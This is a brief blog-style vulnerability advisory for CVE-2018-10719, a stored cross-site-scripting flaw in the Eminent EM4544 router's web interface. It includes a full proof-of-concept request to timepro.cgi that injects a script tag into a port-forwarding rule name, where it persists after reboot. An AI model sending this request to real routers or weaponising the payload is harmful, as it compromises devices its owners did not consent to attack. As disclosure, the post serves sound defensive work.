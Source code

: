 ```yaml
---
layout: post
title:  "Eminent router mixed XSS"
date:   2019-09-14 11:33:37 +0100
categories: 0day
---
```


# CVE-2018-10719

[Description]

An issue was discovered on Eminent EM4544 9.10 devices.
Stored Cross-Site-Scripting has been found on the web interface. The
&quot;timepro.cgi&quot; endpoint allows injections of JavaScript through the
&quot;name&quot; GET parameter. The injection is stored as part of a
port-forwarding rule and therefore it will persist after system
restart.

------------------------------------------

[Additional Information]

PoC link: http://192.168.8.1/cgi-bin/timepro.cgi?tmenu=natrouterconf&amp;
smenu=portforward&amp;
act=add_pf&amp;
nf_rule_count=1&amp;
rule_index=&amp;
rule=5&amp;
sel_server=0&amp;
name=&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;&amp;
os_ip1=192&amp;
os_ip2=168&amp;
os_ip3=8&amp;
os_ip4=34&amp;
protocol=tcp&amp;
i_port1=1&amp;
i_port2=1&amp;
o_port1=1&amp;
o_port2=1

------------------------------------------

[Vulnerability Type]

Cross Site Scripting (XSS)

------------------------------------------

[Vendor of Product]

Eminent

------------------------------------------
